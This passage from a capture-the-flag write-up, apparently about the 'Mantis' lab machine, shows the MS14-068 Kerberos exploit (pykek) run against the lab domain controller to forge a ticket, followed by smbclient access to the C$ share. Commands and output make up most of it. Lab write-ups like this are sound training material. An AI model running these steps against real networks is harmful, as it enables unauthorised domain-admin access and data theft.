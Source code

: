 I was able to find a copy of `ms14-068.py` [here](https://github.com/mubix/pykek), and I’ll run it just like the help suggests:

```

root@kali# python /opt/pykek/ms14-068.py -u james@htb.local -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d mantis.htb.local
Password: 
  [+] Building AS-REQ for mantis.htb.local... Done!
  [+] Sending AS-REQ to mantis.htb.local... Done!
  [+] Receiving AS-REP from mantis.htb.local... Done!
  [+] Parsing AS-REP from mantis.htb.local... Done!
  [+] Building TGS-REQ for mantis.htb.local... Done!
  [+] Sending TGS-REQ to mantis.htb.local... Done!
  [+] Receiving TGS-REP from mantis.htb.local... Done!
  [+] Parsing TGS-REP from mantis.htb.local... Done!
  [+] Creating ccache file 'TGT_james@htb.local.ccache'... Done!

```

This creates a file, `TGT_james@htb.local.ccache`. I’ll copy this into `/tmp` where it is used:

```

root@kali# cp TGT_james@htb.local.ccache /tmp/krb5cc_0

```

### Filesystem Access

Now I have access to the entire filesystem:

```

root@kali# smbclient -W htb.local //mantis/c$ -k
Try "help" to get a list of possible commands.
smb: \> dir
  $Recycle.Bin                      DHS        0  Fri Sep  1 10:19:03 2017
  Documents and Settings            DHS        0  Tue Jul 14 01:06:44 2009
  inetpub                             D        0  Fri Sep  1 09:41:09 2017
  pagefile.sys                      AHS 2146951168  Wed Sep  2 16:33:23 2020
  PerfLogs                            D        0  Mon Jul 13 23:20:08 2009
  Program Files                      DR        0  Sat Dec 23 22:28:26 2017
  Program Files (x86)                DR        0  Fri Sep  1 14:28:51 2017
  ProgramData                        DH        0  Fri Sep  1 09:16:24 2017
  Recovery                          DHS        0  Fri Sep  1 01:39:12 2017
  System Volume Information         DHS        0  Thu Aug 31 20:02:33 2017
  Users                              DR        0  Fri Sep  1 10:19:01 2017
  Windows                             D        0  Sat Dec 23 22:31:49 2017

                5480959 blocks of size 4096. 288821 blocks available

```

I can grab both flags:
